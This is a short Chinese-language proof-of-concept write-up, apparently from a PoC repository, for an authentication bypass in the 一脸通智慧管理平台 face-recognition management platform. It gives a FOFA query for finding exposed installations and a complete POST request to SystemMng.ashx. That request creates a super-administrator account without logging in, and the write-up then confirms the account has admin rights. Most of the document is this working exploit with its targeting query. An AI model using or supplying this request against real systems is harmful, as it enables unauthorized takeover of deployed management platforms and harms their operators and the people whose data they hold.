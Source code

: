 # 一脸通智慧管理平台权限绕过漏洞

## 1.漏洞描述

一脸通智慧管理平台1.0.55.0.0.1及其以下版本SystemMng.ashx接口处存在权限绕过漏洞，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户。

## 2.搜索语法

```plain
fofa：title="欢迎使用脸爱云 一脸通智慧管理平台"
```

## 3.漏洞复现

```plain
POST /SystemMng.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Length: 174

operatorName=test123456&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/df495458-fd00-4686-8864-4c2efb98c864)


成功创建账号，登陆后台可以看到自己创建的账号拥有管理员权限

![image-20240615204600624](D:\py\POC\一脸通智慧管理平台权限绕过漏洞\image-20240615204600624.png)
